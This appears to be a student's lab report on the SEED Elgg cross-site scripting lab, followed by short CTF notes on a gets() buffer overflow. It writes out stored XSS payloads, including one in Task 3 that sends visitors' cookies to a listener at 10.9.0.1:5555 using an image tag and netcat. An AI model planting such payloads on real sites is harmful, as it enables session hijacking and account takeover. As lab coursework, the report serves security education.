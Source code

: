 # TRABALHO REALIZADO NA SEMANA #10

## 3: Lab Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

>The objective of this task was to embed a javasript program which will execute when the page is loaded and will display an alter window with 'XSS'.
>
>To do this we will be using Alice as the attacker.
>
>First we will go to Alice's profile page and view the page source. Where we will find her GUID which is 56 (we just make a ctrl+f).
>
>>![week10_0](https://cdn.discordapp.com/attachments/903555414715670578/930966808696070224/unknown.png)
>
>We will use this info in order for the alert to not appear when it is Alice viewing her own profile.
>
>From that we can edit alice's profile, and conveniently for us we can edit the 'About me" section using html.\
>To inject the javascrip code we can use the html '&#60;script&#62;' with our code:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function(){\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert('XSS');\
>>&#8195;&#8195;&#8195;}\
>>&#8195;&#8195;}\
>>&#60;/script&#62;
>
>We will add this code to her account:
>
>![week10_1](https://cdn.discordapp.com/attachments/903555414715670578/930949016714367076/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>![week10_2](https://cdn.discordapp.com/attachments/903555414715670578/930949137761992714/unknown.png)
>
>The attack was successful.

### Task 2: Posting a Malicious Message to Display Cookies

>Basically the task 2 was the same as the first one but with the appearance of the user's cookie.
>
>To do this we need to change the "About me" on the Alice's edit profile, on the "edit HTML" and write de comand in JS:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert(document.cookie);\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_3](https://cdn.discordapp.com/attachments/903555414715670578/930949307614502982/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>>![week10_4](https://cdn.discordapp.com/attachments/903555414715670578/930949424635584513/unknown.png)
>
>The attack was successful.

### Task 3: Stealing Cookies from the Victim's Machine

>On this task the goal is to steal the cookies from someone who visits, in our case, Alice's page.
>
>We edited Alice's profile page 'About me' section to instead of having 'Alert(document.cookie)' have:
>
>>document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');
>
>The '10.9.0.1' is the IP address of the machine while '5555' correspondes to the port location where script will send an HTTP GET to the machine.
>
>The code will be:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_5](https://cdn.discordapp.com/attachments/903555414715670578/930956473574490112/unknown.png)
>
>The next step was to open terminal and to use the command 'nc -lknv 5555' which will allow us to see what we are able to steal. (This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server.)
>
>When we log in with Samy's account and try to visit Alice's profile we will be redirected to a blank page (trying to load the supposed "image" from our code). But what actually happens is that out terminal will have logged his info: 
>
>
>![week10_7](https://media.discordapp.net/attachments/903555414715670578/930956662804713492/unknown.png?width=1376&height=702)
>
>This task was also successful and Alice now has Samy's session cookie.

### Task 4: Becoming the Victim’s Friend

>On this task we simulated a request HTML with JS.
>
>The objective was to simulate an "add friend" request without doing a click on the button.
>
>So we basically need to write JS in the "About Me" section of the Samy:
>
>>![week_8](https://cdn.discordapp.com/attachments/903555414715670578/930962003831439390/unknown.png)
>
>And on the section "sendurl = ...;" we putted the URL of that request.
>
>We adquire that by logging in as Alice, access to Network tab with inspect the page and add Samy as a friend. We've got an GET of that and copied the URL of that.
>
>Now if we enter the Samy's profile, us being Alice, without pressing the "Add Friend" button, this was already pressed.
>
>>![week10_9](https://cdn.discordapp.com/attachments/903555414715670578/930963121818959872/unknown.png)
>>
>>![week10_10](https://cdn.discordapp.com/attachments/903555414715670578/930963266757341254/unknown.png)
>
>The attack was successful.

# CTF

### Challenge 1

On this challenge we used the following script to "click" on the "Give the flag" button:

>>![week10_ctf1](https://media.discordapp.net/attachments/903555414715670578/931541225020985375/unknown.png?width=1246&height=701)

Then we waited about 2 minutes until the flag appeared

>>![week10_ctf2](https://media.discordapp.net/attachments/903555414715670578/931541175427563560/unknown.png?width=1246&height=701)

### Challenge 2

The program vulnerability was on gets() function, because it give us the chance to write outside of buffer's alocated space.

To take advantage of the vulnerability we used pwntools module, and used it to get buffer address, we discover where the frame pointer address was and with that information we concluded that the return address was on a 108 bytes offset.

We used the following exploit to complete the atack:

>>![week10_ctf3](https://media.discordapp.net/attachments/903555414715670578/934209139025010798/unknown.png?width=1440&height=684)

Then we got the flag 

>>![week10_ctf4](https://media.discordapp.net/attachments/903555414715670578/934208749428686848/unknown.png)


